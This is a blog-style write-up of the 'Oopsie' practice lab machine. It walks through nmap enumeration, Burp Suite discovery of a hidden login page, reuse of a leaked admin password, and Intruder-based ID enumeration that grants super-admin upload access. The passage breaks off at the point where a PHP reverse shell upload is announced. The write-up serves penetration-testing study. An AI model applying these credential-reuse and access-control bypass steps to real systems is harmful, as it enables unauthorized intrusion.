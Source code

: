 ```yaml
---
title: "Writeup: Oopsie"
date: 2020-12-29T9:34:30-04:00
categories:
  - Blog
  - Notes
tags:
  - oopsie
  - update
  - nmap
  - pwd
  - BURP
---
```


Here are notes from the named target:

*Enumeration* - Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.
Linux - 10.10.10.28
```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.27 
```

Results:
```yaml
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Two Ports open SSH and Web

*Enumerate* the Web port 80 - MegaCorpAutomotive

Using a web browser connect to the IP and look around. None of the menu links work but at the bottom of the home page it speaks about login but no page for that. Use BURP proxy to take a look at web traffic.

**BURP**

Using BURP and its uilt in browser no need to configure external browser.
  open web site and in BURP click :Forward" button on the Proxy tab until the page opens up:
  Switch to the :Target" tab and you see a folder tree under the Web IP for "CDN-CGI\login" add that to url path in browser and hit enter:
  back in BURP on the Proxy Tab click Forward to get to the Login Screen:
  
From the "ARCHTYPE" box we learned that their was an Administrator/Admin account that used the Password: MEGACORP_4dm1n!!

Using that Admin user name and Password from ARCHETYPE works and we get the admin page

```yaml
http://10.10.10.28/cdn-cgi/login/admin.php
```

Look around that page:

  The uploads page says that "super admin" is needed to access but I am logged in as only Admin
  
  ```yaml
  http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
  ```
  
  Using BURP proxy again turn ON Intercept and capture the account page to get the user ID
  Send the page to intruder:
  
  Clear all the automatic set variables with the Cler button and highlight the id=1 then click add to gt this
  
  ```yaml
  GET /cdn-cgi/login/admin.php?content=accounts&id=§1§ HTTP/1.1

Host: 10.10.10.28

Upgrade-Insecure-Requests: 1
```

Click the Payloads tab and we want to try id=1-100 so we got to list 1-100 numbers in the shell with

```yaml
for i in {1..100}
do
 # your-unix-command-here
 echo $i
done
```

Highlight the numbers 1-100 in the shell - Copy and then in BURP click Paste to add them to the Payloads section:

Click Options and scroll to bottom to the Redections section:
1. click always radio
2. check Process cookies in redirections
  
Click Target Tab and click Start Attack Button: the length field shows that responce text is different than others so taking a look at the ones with different length shows number 30 is "super admin" by choosing it with Response Tb anf RAW selected:

```yaml
<br /><br /><center><h1>Repair Management System</h1><br /><br />
<table><tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>86575</td><td>super admin</td><td>superadmin@megacorp.com</td></tr></table<script src='/js/jquery.min.js'></script>
<script src='/js/bootstrap.min.js'></script>
</body>
```
  
Use the ID 86575 as the ID value in an uploads page and get access to upload a file.
that gets access to the uploads page

```yaml
http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
```

Now I wanty to try and upload a PHP reverse shell

**Reverse Shell**

